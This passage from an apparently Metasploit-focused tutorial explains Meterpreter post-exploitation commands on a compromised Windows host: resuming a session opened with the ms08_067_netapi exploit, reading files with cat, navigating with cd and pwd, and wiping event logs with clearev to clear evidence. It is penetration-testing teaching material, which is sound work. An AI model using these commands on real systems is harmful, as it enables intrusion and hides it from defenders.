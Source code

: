 ```bash
meterpreter > background
msf exploit**(**ms08_067_netapi**)** > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## cat

In Linux operating systems, the `cat` command is used to print the content of a file to the screen. It does the same thing in Meterpreter.

```bash
meterpreter > cat
Usage: cat file

Example usage:
meterpreter > cat edit.txt
What you talkin' about Willis

meterpreter >
```

## cd > pwd

The folder change is done with the `cd` command. The `pwd` command can be used to see which folder we are currently in.

```bash
meterpreter > pwd
c:\
meterpreter > cd c:\windows
meterpreter > pwd
c:\windows
meterpreter >
```

## clearev

The `clearev` command means Clear Evidence. It tries to clean the **log** files created in the session opened on the other side.

```bash
meterpreter > clearev
> Wiping 97 records from Application...
> Wiping 415 records from System...
> Wiping 0 records from Security...
meterpreter >
```

## download

